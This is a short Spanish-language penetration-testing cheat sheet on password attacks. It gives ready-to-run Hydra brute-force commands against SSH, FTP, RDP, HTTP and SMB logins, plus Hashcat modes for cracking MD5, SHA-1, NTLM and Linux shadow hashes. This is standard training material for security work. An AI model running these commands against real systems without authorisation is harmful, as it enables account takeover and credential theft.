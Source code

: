 > Última actualización: 13 sept 2025

## 🔓 PASSWORD ATTACKS & CRACKING

### HYDRA
**Objetivo:** Ataques de fuerza bruta contra servicios de autenticación.

**Entorno:** Parrot OS

#### Comandos por Servicio
```bash
# SSH
hydra -l admin -P passwords.txt ssh://target_ip
hydra -L users.txt -P passwords.txt ssh://target_ip -t 4 -f

# FTP
hydra -l ftp -P passwords.txt ftp://target_ip

# RDP (puerto 3389)
hydra -l administrator -P passwords.txt rdp://target_ip

# HTTP Basic Auth
hydra -l admin -P passwords.txt target_ip http-get /admin

# HTTP POST Form
hydra -l admin -P passwords.txt target_ip http-post-form "/login:username=^USER^&password=^PASS^:Invalid credentials"

# SMB
hydra -l admin -P passwords.txt target_ip smb
```

**Parámetros Importantes:**
- `-l`: Usuario específico
- `-L`: Lista de usuarios
- `-p`: Password específica  
- `-P`: Lista de passwords
- `-t`: Threads (cuidado con servicios sensibles como RDP)
- `-f`: Detener al encontrar primera credencial válida
- `-V`: Verbose (mostrar intentos)

**Interpretación de Resultados:**
```
[22][ssh] host: target_ip   login: admin   password: password123
1 of 1 target successfully completed, 1 valid password found
```

### HASHCAT
**Objetivo:** Cracking offline de hashes.

**Entorno:** Puede usarse en ambos SO, más eficiente en Windows con GPU

#### Modos Comunes
```bash
# MD5
hashcat -m 0 -a 0 hash.txt wordlist.txt

# SHA-1
hashcat -m 100 -a 0 hash.txt wordlist.txt

# NTLM
hashcat -m 1000 -a 0 hash.txt wordlist.txt

# Linux SHA-512 (shadow)
hashcat -m 1800 -a 0 shadow.txt wordlist.txt
```

[^1]: image.jpg